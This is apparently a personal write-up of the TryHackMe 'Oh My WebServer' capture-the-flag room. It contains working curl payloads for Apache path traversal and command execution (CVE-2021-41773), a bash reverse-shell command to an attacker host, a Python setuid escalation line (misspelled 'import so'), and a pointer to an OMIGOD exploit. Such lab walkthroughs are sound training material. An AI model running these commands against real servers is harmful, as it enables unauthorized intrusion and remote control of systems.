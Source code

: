 ```yaml
---
title: THM - Oh My WebServer
author: guialvesf
date: 2022-03-24 01:00:00 -0300
categories: [tryhackme, writeup]
tags: [tryhackme, writeup]
image: "/img/thm/ohmywebserver/banner.png"
alt: "tryhackme"
---
```



<p align="center" width="100%">
    <img src="/img/thm/ohmywebserver/banner.png"> 
</p>
<hr>

# Recon
Let's start with a classic Nmap scan against the machine to see what services are running!

* -sC - Default Nmap scripts
* -sV - Services version
* -oA - Save output to a file
* -v  - Verbose mode

(This screenshot has another command because I typed it just for pic)

![nmap](/img/thm/ohmywebserver/nmap.png)

Ok, we have two open ports, 80 port is running `Apache 2.4.49` and 22 port running a SSH. Can we access this webpage to see what we have.

![consult](/img/thm/ohmywebserver/consult.png)

Cool, just a web application. I didn't find anything interesting, so let's start a directory enumeration.

`ffuf -u http://10.10.148.87/FUZZ -w /path/to/wordlist -t 90 -c`

* -u - Target URL
* -w - Wordlist file path
* -t - Number of concurrent threads
* -c - Colorize output

![ffuf](/img/thm/ohmywebserver/ffuf.png)

Here we find two somewhat interesting directories: `assets` and `cgi-bin`

![assets](/img/thm/ohmywebserver/assets.png)

Ok, I didn't find anything here too.

![cgi-bin](/img/thm/ohmywebserver/cgi-bin.png)

## Reverse shell

Alright, we have a cgi-bin, and coming back to Apache version I found something a lot interesting. For that apache version we have a `CVE-2021-41773`. Can we confirm it with a cURL command.
Just sending a request with a linux command can we check it.

`curl 'http://10.10.148.87/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'Content-Type: text/plain; echo; whoami && id'`

![curl-first-command](/img/thm/ohmywebserver/curl_first_command.png)

BOOMM! We have a path traversal, and we are able to execute commands, so let's get a reverse shell with this. To do this we'll need two terminals, one for send request and another to wait a connection.

`curl 'http://10.10.148.87/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/bash' -d "Content-Type: text/plain; echo; bash -c 'exec bash -i &>/dev/tcp/$IP/$PORT/ <&1'"`

![reverse-shell](/img/thm/ohmywebserver/reverse_shell.png)

## User

Ok, we have a reverse shell and access to the machine, but there's no home user here

![no-user](/img/thm/ohmywebserver/no-user.png)

It took me a while to enumerate this machine, so I decided to use linPEAS. So by uploading the script and running I found something interesting

![linpeas](/img/thm/ohmywebserver/linpeas.png)

We can set UID with python command.

`python3 -c 'import so; os.setuid(0); os.system("/bin/bash")'`

![setuid](/img/thm/ohmywebserver/user.png)

## Root

After enumerating, I took a another look to linPEAS output and found something else: we have another IP address. So we can enumerate this IP with Nmap. Can you download nmap binary from [here](https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64). Just upload as linPEAS.

`nmap -v 172.17.0.0-5`

This will scan IP from 0 to 5, and checking the output we can note that 172.17.0.1 host is up. 

![nmap_ntw](/img/thm/ohmywebserver/nmap_ntw.png)

Enumerating it better we find another two open ports: `5985` and `5986`.

![nmap_nports](/img/thm/ohmywebserver/nmap_nports.png) 

Ok, we have another CVE: `CVE-2021-38647`. There's a script to exploit it, you can find it [here](https://github.com/AlteredSecurity/CVE-2021-38647). We'll use the python script to escalete our privileges.

![omigod](/img/thm/ohmywebserver/omigod.png)

Just run it by passing the command as an argument.

![root](/img/thm/ohmywebserver/root.png)
